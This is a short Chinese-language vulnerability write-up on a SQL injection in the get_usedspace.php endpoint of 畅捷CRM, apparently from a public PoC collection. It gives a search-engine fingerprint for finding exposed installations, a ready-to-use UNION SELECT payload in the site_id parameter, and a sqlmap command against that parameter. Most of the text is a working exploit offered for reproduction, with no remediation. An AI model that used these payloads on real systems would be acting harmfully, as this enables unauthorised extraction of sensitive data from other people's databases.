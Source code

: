# 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>畅捷CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="畅捷CRM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

验证POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

使用Sqlmap验证漏洞

```php
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)